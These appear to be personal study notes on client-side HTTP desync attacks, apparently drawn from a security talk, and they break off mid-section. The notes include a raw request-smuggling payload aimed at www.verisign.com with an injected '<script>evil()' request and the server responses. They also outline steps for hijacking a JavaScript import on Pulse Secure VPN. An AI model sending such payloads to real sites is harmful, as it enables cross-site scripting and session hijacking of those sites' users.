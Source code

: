 ```
34d
```
```
HTTP/1.1 200 ok
```
![[Pasted image 20240811001658.png]]
which meant i had to judge the chunk size, so the follow-up request would perfectly slot inside that chunk and close off the request.
```
POST /%2f HTTP/1.1
Host: www.verisign.com
Content-Length: 81

HEAD / HTTP/1.1
Connection: keep-alive
Transfer-ENcodinf: chunked

34d
POST / HTTP/1.1
Host: www.verisign.com
Content-Length: 59

0

GET /<script>evil() HTTP/1.1
Host: www.verisign.com
```
```RESPONSE1
HTTP/1.1 200 OK

```
```RESPONSE2
HTTP/1.1 200 OK
Content-Length: 54873
Content-Type: text/html
```
```RESPONSE3
HTTP/1.1 301 Moved Permanently
```
![[Pasted image 20240811001801.png]]
This,unbelievably, did actually work. BUt the interesting thing here, the reason this is worth mantioning is because this approach is exclusive to client-side desync. If you're doing a server-side desync, you don't control what the next request to hit the server is gonna be. So you can't accuerately predict its size. And this technique is basically completly implausible. 
So it's worth bearing in mind that although client-side desync can be quite painful sometimes, you do have options.
### Pulse Secure VPN - an aproach of last resort
**Regular CSD attacks**
- Create a poisoned connection
- Trigger navigation
**Hijacking JS with a non-cacheable redirect**
 - Navigate to target page
 - Guess when the page has loaded
 - Create some poisoned connectios
 - Hope a JS import uses a poisoned connection
![[Pasted image 20240811002320.png]]
Speaking of painful, for our final case study, we're gonna target Pulse Secure VPN. Here, you can do a desync by POST request to the robots.txt file. And just like Cisco's web VPN, they've got a host header, redirect gadget that we'd like to use to hijack a JavaScript import, but this time the redicrect isn't cacheable. So we are in this unpleasant scenario where our attack timing is crucial. And i had to take three steps to make this remotely reliable. 
**Making ir plausible**